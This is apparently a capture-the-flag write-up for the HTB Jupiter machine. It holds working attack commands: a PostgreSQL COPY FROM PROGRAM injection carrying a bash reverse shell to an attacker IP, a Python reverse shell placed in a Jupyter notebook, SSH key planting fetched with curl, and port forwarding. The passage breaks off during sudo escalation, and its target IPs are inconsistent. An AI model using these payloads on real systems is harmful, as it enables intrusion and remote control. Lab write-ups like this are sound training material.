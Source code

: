 ```yaml
---
layout: post
title: "From SQLi to Root"
date: 2023-10-15
---
```




# Enumeration 
IP: 
```shell
10.10.11.233
```
Ports:
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found Grafana Dashboard - `Grafana v9.5.2 (cfcea75916)`

## Reverse Shell

```shell
nc -lvnp 6969
```

### SQL Exploit 
``"CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"'"``

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


``ls -ls /tmp/bash``

``./bash -p``

## Copy ssh keys to victim machine
Generate new keys https://linuxhandbook.com/add-ssh-public-key-to-server/

On the Offensive machine - 
```shell
 ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

```shell
python3 -m http.server
```

On the Victim's machine 
```shell
curl -O http://10.10.16.5:8000/id_rsa.pub

#then 

mv id_rsa.pub authorized_keys
```

On the Attackers machine 
```shell
ssh -i id_rsa juno@10.10.11.216
```

Success found user.txt!!!!

---
# Root Flag
Running `cat shadow-simulation.sh`
```bash
#!/bin/bash
cd /dev/shm
rm -rf /dev/shm/shadow.data
/home/juno/.local/bin/shadow /dev/shm/*.yml
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

# **Pivoting : Juno → jovian**

In user shell I type ``netstat -nptl`` command to list all active port running internally in that Machine.

```shell
ssh -i id_rsa -L 8888:127.0.0.1:8888 juno@10.10.11.216
```
This command will forward that port(8888) in my machine. And I can easily access that. :)

navigating to `localhost:8888` with my browser I found a Jupyter labs notebook


TIp `cat *| grep "token"`

After logging in with the token I was able to edit the python notebook and add a reverse shell.
```python
import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.16.5/6969 0>&1\"')
```
Success

## Privilege escalation Jovian -> root
```shell
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
Find all config.json files
```shell
find / -name config.json 2>/dev/null
```

Found `/usr/local/share/sattrack/config.json`
